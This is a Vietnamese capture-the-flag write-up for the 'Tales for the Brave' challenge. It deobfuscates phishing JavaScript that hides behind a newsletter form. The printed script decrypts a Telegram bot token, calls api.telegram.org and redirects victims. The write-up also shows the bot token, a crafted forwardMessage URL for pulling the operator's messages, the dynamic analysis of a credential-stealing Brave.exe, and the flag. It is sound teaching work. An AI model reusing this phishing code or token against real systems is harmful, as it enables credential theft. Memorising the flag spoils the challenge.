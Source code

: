 # Tales for the Brave 

### Details:
In Eldoria, a once-innocent website called “Tales for the Brave” has become the focus of unsettling rumors. Some claim it may secretly trap unsuspecting visitors, leading them into a complex phishing scheme. Investigators report signs of encrypted communications and stealthy data collection beneath its friendly exterior. You must uncover the truth, and protect Eldoria from a growing threat.
**When debugging JavaScript, ensure you use a Firefox-based browser.**

### Solution:

Đề cho chúng ta một đoạn obfuscate js. Ta tiến hành tách từng đoạn nhỏ và chạy nó trên Console (vì nó có sử dụng `CryptoJS` nên ta sẽ sử dụng Console trên web Docker của đề <Vì nó import sẵn library cho mình rồi>)

Đoạn nhỏ đầu tiên ta có:
```
var _$_9b39=(function(n,w){var r=n.length;var j=[];for(var e=0;e< r;e++){j[e]= n.charAt(e)};for(var e=0;e< r;e++){var d=w* (e+ 439)+ (w% 33616);var a=w* (e+ 506)+ (w% 38477);var v=d%r;var p=a%r;var x=j[v];j[v]= j[p];j[p]= x;w= (d+ a)% 3525268};var c=String.fromCharCode(127);var q='';var m='%';var t='#1';var o='%';var u='#0';var k='#';return j.join(q).split(m).join(c).split(t).join(o).split(u).join(k).split(c)})("Ats8ep%%e6Sr%prB%feUseEynatcc4%ad",1198358);;;;;;;;;;;;;
```
![image](assets/1.png)

Ta được `_$_9b39 = ['decrypt', 'AES', 'parse', 'Base64', 'enc', 'Utf8']`

Ở đoạn thứ 2 ta có:
```
eval(CryptoJS[_$_9b39[1]][_$_9b39[0]]({ciphertext:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape(".....")))},
CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("..."))),
{iv:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("....")))}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));
```

Sau khi lấy giá trị từ `_$_9b39` ta có một đoạn hoàn chỉnh là:
```
CryptoJS.AES.decrypt(
    {ciphertext: CryptoJS.enc.Base64.parse(btoa(unescape(".....")))},
    CryptoJS.enc.Base64.parse(btoa(unescape("....."))),
    {iv: CryptoJS.enc.Base64.parse(btoa(unescape("....")))}
  ).toString(CryptoJS.enc.Utf8);
```

Code này sẽ decrypt ciphertext bằng AES, ta tiến hành nhập từng đoạn vào Console:

Ciphertext:

![image](assets/2.png)

![image](assets/3.png)

Key và IV:

![image](assets/4.png)

```
Key: dbed986cb189a14795f28ab317af4c2db2073729cf54bc93
IV: e4752614ca4a372f3809fcc60d09308a
```

Ta đút vào CyberChef, ta có đoạn obfuscate thứ 2 ........

![image](assets/5.png)

Làm các bước tương tự như ở phần 1 ta có code hoàn chỉnh:
```js
_$_5975 = ['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==',
           's3cur3k3y',
           'Base64', 'enc', 'toString', '', 'join', 'SHA256', 
           '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', // Hash to verify
           'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 
           'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 
           'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 
           'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']

function G(r) {
    return function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 7 - t) 
        }).join('')
    }(43, 106, 167, 103, 163, 98) + 
    1354343..toString(36).toLowerCase() + 
    21..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    4..toString(36).toLowerCase() + 
    32..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -39) 
    }).join('') + 
    381..toString(36).toLowerCase().split('').map(function (r) { 
        return String.fromCharCode(r.charCodeAt() + -13) 
    }).join('') + 
    function () {
        var r = Array.prototype.slice.call(arguments), o = r.shift();
        return r.reverse().map(function (r, t) { 
            return String.fromCharCode(r - o - 60 - t) 
        }).join('')
    }(42, 216, 153, 153, 213, 187);
}

document.getElementById("newsletterForm").addEventListener("submit", function(e) {
  e.preventDefault();
  const emailField = document.getElementById("email");
  const descriptionField = document.getElementById("descriptionField");
  let isValid = true;
  if (!emailField.value) {
    emailField.classList.add("shake");
    isValid = false;
    setTimeout(() => {
      return emailField.classList.remove("shake");
    }, 500);
  }
  if (!isValid) {
    return;
  }
  const emailValue = emailField.value;
  const specialKey = emailValue.split("@")[0];
  const desc = parseInt(descriptionField.value, 10);
  f(specialKey, desc);
});

function f(oferkfer, icd) {
  const channel_id = -1002496072246;
  var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";
  // _$_5975[1] = s3cur3k3y
  // _$_5975[8] = 18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=
  if (oferkfer === G(_$_5975[1]) && 
        CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === _$_5975[8]) {
    var decrypted = CryptoJS.RC4Drop.decrypt(
            enc_token, 
            CryptoJS.enc.Utf8.parse(oferkfer), 
            { drop: 192 }
        ).toString(CryptoJS.enc.Utf8);
    var HOST = "https://api.telegram.org/bot"+ decrypted;
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        const resp = JSON.parse(xhr.responseText);
        try {
          const link = resp.result.text;
          window.location.replace(link);
        } catch (error) {
          alert("Form submitted!");
        }
      }
    };
    xhr.open("GET", HOST + "/" + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
    xhr.send(null);
  } else {
    alert("Form submitted!");
  }
}
var sequence = [];

function l() {
  sequence.push(this.id);
}
var checkboxes = document.querySelectorAll("input[class=cb]");
for (var i = 0; i < checkboxes.length; i++) {
  checkboxes[i].addEventListener("change", l);
}

```

Ta tìm giá trị `oferkfer` để lấy giá trị của cho việc decrypt biến `decrypted`:

![image](assets/6.png)

`oferkfer = 0p3r4t10n_4PT_Un10n`

Ta tiến hành tìm giá trị của `decrypted`:

![image](assets/7.png)

`decrypt = 7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc`

Ta có link bot telegram hoàn chỉnh: `https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc`

Ta có thể `/getMe` để lấy thông tin về bot và xác định được tên của con bot là `OperationEldoriaBot`

Ta sẽ sử dụng API `forwardMessage` để kéo tất cả tin nhắn về Telegram của ta. Nhưng ta chỉ có thể làm việc đó nếu ta có ID chat của ta và con bot. Thế nên ta tiến hành gửi tin nhắn cho con bot

![image](assets/8.png)

Sau khi đã khỏi tạo đoạn chat, thông tin sẽ update ở `/getUpdates` của con bot.

Ta lấy được `chat_id` của mình và hoàn thành url hoàn chỉnh thực hiện API `forwardMessage`

```
https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=xxx&from_chat_id=-1002496072246&message_id=x
```

Khi ta test, có tất cả 11 đoạn chat và trong số đó có một vài cái đặc biệt
```
message_id = 3: "Interesting. Their reliance on **Brave** works in our favor. Send over the tool and a brief summary of its capabilities."
message_id = 6: Zip file
message_id = 9 -> Cho password cho dr4g0nsh34rtb3l0ngst0m4l4k4r
```

Ta tải file và tiến hành giải nén, ta có được 1 file `Brave.exe`

**Ta thử phân tích nhưng không có bất kỳ thứ gì khả nghi**. Vì vậy ta phải đổi sang hướng **Dynamic Analysis**. Về cơ bản method này nhằm để nắm bắt hành vi của con `Brave.exe` này

Ta tiến hành mở Fakenet-NG (Tool cho Dynamic Network Analysis) và chạy `Brave.exe` cùng Browser Brave (vì trong mess_id 3, người ta có nhắc đến việc người dùng sử dụng Brave sẽ có lợi cho họ nên ta nghĩ là con `Brave.exe` này sẽ làm gì đó với dữ liệu bla bla của Brave)

Malware gửi POST request với JSON data tới endpoint. Ta tìm được flag nằm trong JWT Token trên POST request

![image](assets/9.png)

![image](assets/10.png)

![image](assets/11.png)



Flag: `HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}`
